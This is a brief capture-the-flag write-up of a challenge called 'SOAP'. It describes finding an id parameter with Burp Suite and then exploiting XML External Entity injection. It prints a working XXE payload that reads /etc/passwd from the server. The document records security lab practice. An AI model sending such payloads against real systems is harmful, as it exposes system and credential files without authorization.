

# SOAP



site:


There was no input field on the page, but while intercepting requests in Burp Suite, I found an `id` parameter being sent.


This indicated that the application might be processing XML data. To test for XML External Entity (XXE) injection, I crafted a classic payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>
  <ID>&xxe;</ID>
</data>

```

When sent through the `id` parameter, this payload caused the server to include the contents of `/etc/passwd` in the response, confirming the vulnerability and revealing the flag.


